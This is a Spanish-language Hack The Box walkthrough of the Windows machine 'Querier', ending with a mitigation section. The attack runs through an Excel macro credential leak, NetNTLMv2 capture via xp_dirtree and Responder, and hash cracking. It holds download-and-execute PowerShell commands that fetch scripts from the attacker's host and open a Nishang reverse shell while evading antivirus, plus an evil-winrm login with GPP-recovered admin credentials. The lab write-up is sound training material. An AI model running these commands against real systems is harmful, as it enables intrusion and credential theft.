# Querier

[{ .maquina-icono }](https://app.hackthebox.com/machines/Querier)

## Resumen

Máquina Windows con **SMB** anónimo y un **SQL Server** detrás. En un recurso compartido
hay un Excel con una **macro** que lleva dentro las credenciales de un usuario de la base de
datos. Desde SQL Server, sin ser admin, forzamos al servicio a autenticarse contra nuestro
**Responder** y capturamos el hash **NetNTLMv2** de `mssql-svc`, que crackeamos con hashcat.
Con ese usuario (ya con permisos en la BD) nos abrimos una reverse shell saltándonos el
antivirus con **Nishang**, y **PowerUp** encuentra la contraseña del **Administrador** cacheada
en un `Groups.xml` de GPP. Con eso, `evil-winrm` y a por la flag de root.

## Reconocimiento

Primero un ping para ver el TTL y deducir el sistema operativo:

```
ping -c 1 10.129.87.231
```



El TTL es cercano a **128**, así que estamos ante una máquina **Windows**.

### Puertos abiertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.87.231 -oN ports
```



Hay bastantes puertos, pero los que importan son los típicos de un Windows con base de datos:
**135 / 139 / 445** (RPC y SMB), **1433** (SQL Server) y **5985** (WinRM). El resto son puertos
altos de RPC dinámico. Aunque sean muchos, conviene enumerarlos todos: nunca sabes cuál te va a
dar la entrada.

### Versiones

```
nmap -p 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -sVC -T4 --min-rate 5000 10.129.87.231 -oN targeted
```



Confirma lo esperado: **SMB** en el 445 y **Microsoft SQL Server** en el 1433. Empezamos por el
SMB, que suele ser el camino más corto.

## Enumeración

### SMB anónimo

Listamos los recursos compartidos sin credenciales (sesión nula):

```
smbclient -L //10.129.87.231 -N
```



Además de los compartidos por defecto, hay uno que no es estándar: **`Reports`**. Entramos de
forma anónima y vemos qué tiene dentro:

```
smbclient //10.129.87.231/Reports -N
smb: \> ls
```



Hay un único fichero: **`Currency Volume Report.xlsm`**. La extensión `.xlsm` ya es una pista
—es un Excel **con macros**—, así que lo descargamos (`get "Currency Volume Report.xlsm"`) para
mirarlo con calma.

### Las credenciales escondidas en la macro

Un `.xlsx`/`.xlsm` por dentro es un ZIP. Lo descomprimimos y la macro vive en
`xl/vbaProject.bin`. Un simple `strings` sobre ese binario deja la macro a la vista:

```
strings xl/vbaProject.bin
```



Y ahí está la cadena de conexión a la base de datos, con usuario y contraseña en claro:

```
Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6
```

```
USUARIO     -> reporting
CONTRASEÑA  -> PcwTWTHRwryjc$c6
```

## Explotación

### Entrar en SQL Server como reporting

Nos conectamos al SQL Server con el `mssqlclient.py` de impacket y esas credenciales:

```
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.129.87.231 -windows-auth
```


Dentro, lo primero es ver hasta dónde llegamos:

```
SELECT IS_SRVROLEMEMBER('sysadmin');
EXEC xp_cmdshell 'whoami';
```

`reporting` **no es sysadmin** y **no puede ejecutar comandos** (`xp_cmdshell` está deshabilitado
y no tenemos permiso para activarlo). Hace falta un usuario con más privilegios.

### Capturar el hash de mssql-svc con Responder

El truco aquí es que SQL Server corre como el usuario **`mssql-svc`**, y podemos obligar al
servicio a que se autentique contra **nosotros**. Levantamos **Responder** en nuestra interfaz de
la VPN:

```
sudo responder -I tun0
```

Y desde la sesión de SQL Server lanzamos un `xp_dirtree` apuntando a un recurso SMB que no existe,
en nuestra IP:

```
EXEC xp_dirtree '\\10.10.15.39\share\file';
```



El servidor intenta conectarse a ese recurso y, al hacerlo, nos manda su autenticación. Responder
la recoge: tenemos el hash **NetNTLMv2** de `QUERIER\mssql-svc`:



### Crackear el hash

Primero un `hashid` para confirmar el tipo (sale **NetNTLMv2**, que en hashcat es el modo
**`-m 5600`**) y lo crackeamos con el diccionario de siempre:

```
hashcat -m 5600 hash_mssql rockyou.txt
```



Sale la contraseña:

```
USUARIO     -> mssql-svc
CONTRASEÑA  -> corporate568
```

### Reconexión como mssql-svc y reverse shell

Nos reconectamos a SQL Server, ahora como **`mssql-svc`**, que sí tiene permisos para activar y
usar `xp_cmdshell`:

```
impacket-mssqlclient mssql-svc:corporate568@10.129.87.231 -windows-auth
enable_xp_cmdshell
```



El primer intento de reverse shell «clásica» (subir un binario / `nc.exe`) **lo bloquea el
antivirus** nada más tocar disco:



La forma de saltárselo es no dejar nada en disco: usar una herramienta en **PowerShell** y cargarla
**en memoria**. Tiramos de **Nishang** ([Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)):

1. Nos clonamos el repo y, al final del `.ps1`, añadimos la llamada con **nuestra IP y el puerto
   del listener** (p. ej. `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.39 -Port 9001`). Lo
   servimos con un servidor HTTP de Python.
2. Levantamos el listener (`nc -lvnp 9001` o `rlwrap` para comodidad).
3. Desde SQL Server, con `xp_cmdshell`, descargamos y ejecutamos el script en memoria:

```
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.39/PS1')"
```


Como no toca disco, el antivirus no se entera, y nos cae la shell como `mssql-svc`:



Desde ahí leemos la flag de usuario (`C:\Users\mssql-svc\Desktop\user.txt`):

```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Para la post-explotación subimos **PowerUp.ps1** y lanzamos todas las comprobaciones. Lo servimos
con Python y lo cargamos en memoria igual que antes:

```
wget -4 https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.39:8080/PowerUp.ps1'); Invoke-AllChecks
```

Entre los resultados aparece el bueno: una comprobación de **GPP** (*Cached GPP Files*) encuentra un
`Groups.xml` con la contraseña del **Administrador** guardada:



```
USUARIO     -> Administrator
CONTRASEÑA  -> MyUnclesAreMarioAndLuigi!!1!
```

> Esto es el clásico fallo de las **Group Policy Preferences**: las contraseñas que se guardaban en
> esos `Groups.xml` iban cifradas con una clave **que Microsoft publicó**, así que recuperarlas es
> trivial. Por eso PowerUp las saca directamente.

Con esas credenciales entramos por **WinRM** con `evil-winrm` como Administrador y leemos la flag
final:

```
evil-winrm -i 10.129.87.231 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'
type C:\Users\Administrator\Desktop\root.txt
```



```
ROOT FLAG -> [censurada]
```

## Mitigación

- **No dejar credenciales en ficheros compartidos ni en macros.** La entrada fue un `.xlsm` con la
  contraseña de la BD en claro dentro de la macro, en un recurso **accesible de forma anónima**.
  Ese compartido no debería permitir sesión nula, y menos aún guardar un fichero con credenciales.
- **Cuentas de servicio con el mínimo privilegio.** `mssql-svc` podía activar `xp_cmdshell` y
  ejecutar comandos en el sistema; si la cuenta de servicio de SQL Server no tuviera esos permisos,
  la cadena se corta ahí. Conviene además deshabilitar `xp_cmdshell` salvo que sea imprescindible.
- **El hash NetNTLMv2 se capturó porque el servidor pudo salir a autenticarse a una IP cualquiera.**
  Segmentar la red y no permitir conexiones SMB salientes del servidor de BD hacia destinos
  arbitrarios habría evitado el *leak* del hash. Y una contraseña fuerte para `mssql-svc` habría
  hecho inviable el crackeo.
- **El agujero de la escalada es la contraseña de GPP.** Ese `Groups.xml` no debería existir: desde
  el parche **MS14-025** no deberían guardarse contraseñas por GPP, y las que quedaron cacheadas en
  `C:\ProgramData\Microsoft\Group Policy\History\...` hay que **borrarlas**. Mientras ese fichero
  siga ahí, cualquiera que llegue a una shell en la máquina tiene al Administrador servido.

## Lo que me costó / Lo que aprendí

Esta máquina me dio bastante dolor de cabeza, sobre todo por dos cosas.

La primera, caer en lo del **`xp_dirtree` + Responder**. Entrar en SQL Server con `reporting` fue
fácil, pero al ver que no era sysadmin ni podía ejecutar comandos me quedé un rato pensando que me
había quedado sin camino. La idea de forzar al propio servicio a autenticarse contra mí para robarle
el hash a `mssql-svc` no es evidente la primera vez, y es justo la pieza que abre toda la máquina.

La segunda, y la que más me costó, el **antivirus**. Cada intento de reverse shell «normal» se moría
en cuanto tocaba disco, y estuve un buen rato probando binarios que no llegaban a ejecutarse. Lo que
lo desbloqueó fue entender que la clave no era buscar un exploit distinto, sino **no dejar nada en
disco**: cargar el script de PowerShell en memoria con `IEX`. Con el Nishang cargado así, el AV ni se
entera.

Del resto me llevo el patrón completo, que se repite mucho en entornos reales: credenciales olvidadas
en un fichero, una cuenta de servicio con más permisos de los que debería, un hash que se puede
capturar y crackear, y una **contraseña de GPP** que lleva años sin deberse poder guardar y que, sin
embargo, seguía ahí.

---

**Flags:**
- `mssql-svc/user.txt` → `[censurada]`
- `Administrator/root.txt` → `[censurada]`
